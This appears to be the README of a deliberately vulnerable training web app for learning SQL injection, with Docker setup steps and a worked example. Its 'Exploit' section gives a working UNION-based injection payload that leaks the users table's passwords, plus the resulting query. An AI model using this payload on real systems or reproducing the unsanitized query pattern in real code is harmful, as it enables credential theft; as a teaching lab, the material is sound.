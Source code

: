 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- MYSQL_ROOT_PASSWORD `Databse password`
- SQL_HOST=database `Database host, from the API point of view`
- SQL_WAIT=20 `API waiting for that time (in seconds) before connecting to the database`

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

Here is an example of a working payload, esposing all passwords in the table:

```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :

```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
